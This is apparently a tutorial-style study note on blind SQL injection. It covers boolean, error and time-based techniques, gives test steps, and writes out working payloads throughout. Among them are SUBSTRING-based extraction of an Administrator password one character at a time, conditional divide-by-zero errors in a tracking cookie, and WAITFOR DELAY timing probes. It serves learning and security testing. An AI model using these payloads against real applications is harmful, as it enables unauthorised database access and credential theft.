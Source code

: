 # Blind SQL Injection:

## D. Blind SQL injection, `where the results of a query you can't see in the application's HTTP responses.`
- Basically, the attacker doesn't see the direct results of their injected queries rather the attacker relies on the behavior of the site.
- Trial and error, the attacker continues to extract data by asking a series of true or false questions, gradually revealing sensitive information such as database structure, table names, or even specific data records.

# Type 1: Boolean-Based Blind SQL Injection
- Test Steps:
1. Enter a legitimate username and password in the login form.
2. In the username field, append a single quote (`'`) and `AND 1=1--` to inject a condition that is always true.
3. Observe the application's response.

- Expected Outcome: The login should be successful, indicating a vulnerability to boolean-based blind SQL injection.

## Exploiting blind SQL injection by triggering conditional responses:
- Inject the SQLi to affect the Application Logic i.e WHERE condition.
- The LIMIT (MySQL and PostgreSQL) or TOP(T-SQL) clause ensures that the query returns only one row.
- Cookies, while useful for maintaining state and enhancing user experience on the web.

- ![image](https://github.com/user-attachments/assets/fac6eae1-c2b4-479f-a395-ff2cd0c8dcdf)

### Example:
```sql
…xyz' AND '1'='1     The first of these values causes the query to return results, because the injected AND '1'='1 condition is true. As a result, the "Welcome back" message is displayed.
…xyz' AND '1'='2     The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
```

- For example, suppose there is a table called Users with the columns Username and Password, and a user called Administrator. You can determine the password for this user by sending a series of inputs to test the password one character at a time.
```sql
To do this, start with the following input:

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

Next, we send the following input:
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
We can continue this process to systematically determine the full password for the Administrator user.
```

_Example_
```sql
Injected Payload:
Suppose the application constructs a query like this: SELECT * FROM items WHERE item_name = 'input_value'.
An attacker could input anything' OR (SELECT 'a' FROM users LIMIT 1)='a' --.
This could result in the following SQL query: SELECT * FROM items WHERE item_name = 'anything' OR (SELECT 'a' FROM users LIMIT 1)='a' --'.

Result:
If the users table has rows, (SELECT 'a' FROM users LIMIT 1)='a' evaluates to TRUE.
Therefore, the entire WHERE clause evaluates to TRUE, potentially bypassing the intended query logic and returning all rows from the items table.
```

# Type 2: Error-Based Blind SQL Injection
- Refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts
- may be able to induce the application to return a specific error response based on the result of a boolean expression.
- may be able to trigger error messages that output the data returned by the query.

- Test Steps:
1. Enter a legitimate username and password in the login form.
2. In the username field, append a single quote (`'`) and `AND 1=0 UNION SELECT 1/0--` to generate an SQL error by dividing by zero.
3. Observe the application's response.

- Expected Outcome: The application should display an error message, indicating a vulnerability to error-based blind SQL injection.

## Exploiting blind SQL injection by triggering conditional errors:
- To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true:

With the first input, the CASE expression evaluates to 'a', which does not cause any error.
With the second input, it evaluates to 1/0, which causes a divide-by-zero error.
```

- If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.
- Injection: `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Extracting sensitive data via verbose SQL error messages:
- Misconfiguration of the database sometimes results in verbose error messages.
- Error Message: `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
- To induce the application to generate an error message that contains some of the data that is returned by the query.
- You can use the CAST() function to achieve this. It enables you to convert one data type to another.

# Type 3: Time-Based Blind SQL Injection
- Test Steps:
1. Enter a legitimate username and password in the login form.
2. In the username field, append injection `'AND SLEEP(5)--` to introduce a delay of 5 seconds in the query execution.
3. Observe the application's response.

- Expected Outcome: The login process should exhibit a noticeable delay, indicating a vulnerability to time-based blind SQL injection.

## Exploiting blind SQL injection by triggering time delays:
- SQL queries are normally processed synchronously by the application, `delaying the execution of a SQL query also delays the HTTP response.`
```mssql
For Microsoft SQL Server,:

'; IF (1=2) WAITFOR DELAY '0:0:10'-- # The first of these inputs does not trigger a delay, because the condition 1=2 is false.
'; IF (1=1) WAITFOR DELAY '0:0:10'-- # The second input triggers a delay of 10 seconds, because the condition 1=1 is true.
```
- Injection: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

